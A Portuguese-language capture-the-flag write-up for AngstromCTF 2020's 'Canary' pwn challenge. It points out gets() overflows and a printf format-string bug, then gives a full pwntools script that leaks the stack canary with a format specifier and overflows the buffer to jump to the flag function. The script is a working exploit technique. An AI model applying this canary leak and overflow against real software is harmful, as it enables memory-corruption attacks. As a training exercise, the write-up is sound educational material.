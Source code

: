 # Canary -- pwn -- 70pts/319 solves

### Enumeração de Falhas
A challenge nos oferece seu respectivo source code.
Inicialmente, nota-se duas falhas de BoF:

```
	char name[20];
	gets(name);
	...
	char info[50];
	gets(info); 
```

Função gets não impõe checkagens no limite de quantos bytes são lidos, logo, ela é sujeita a falhas de Buffer Overflow (bof).

Porém, além dessa falha, há uma outra falha de Format String:
```
	printf(strcat(name, "!\n"));
```

### Explorando as falhas encontradas
```
fex0r:~/C/A/canary
➤ checksec ./canary
[*] '/home/fex0r/CTF-Writeups/AngstromCTF2020/canary/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Ok, stack-cookie/canary protection está ativa, isto seria um problema se não houvessem maneiras de leakar o stack-cookie.
Stack-Cookie / Canary é um valor colocado na stack, que de função em função, é checkado a fim de perceber alterações nele. Se houvesse um Buffer Overflow sem precedentes, seu valor original seria sobescrito, de forma a triggar o fim da execução do programa naquele exato instante com a seguinte mensagem; "--stack smashing detected--".

Usando a falha de FMT, podemos leakar o valor do stack canary - posicionado na stack -, e re-introduzirmos ele em seu devido offset na stack no momento em que executamos o BoF, de forma que o binário nao perceba mudança no valor original do stack-cookie logo, não interrompendo sua própria execução.

```
from pwn import *

p = remote("shell.actf.co", 20701)
e = ELF("./canary")

xpl = ""
xpl += "%17$lx" #canary leak

p.sendlineafter("your name?", xpl)
canary = p.recvline()
canary = canary.split(" ")[5].replace("!", "")
canary = int(canary, 16)
info("Canary ==> %s"%hex(canary))

xpl = ""
xpl += "A"*56 #padding até posição do stack-cookie/canary
xpl += p64(canary) #valor do canary -originalmente-
xpl += "A"*8
xpl += p64(e.sym["flag"])
p.sendlineafter("tell me?", xpl)

p.interactive()
```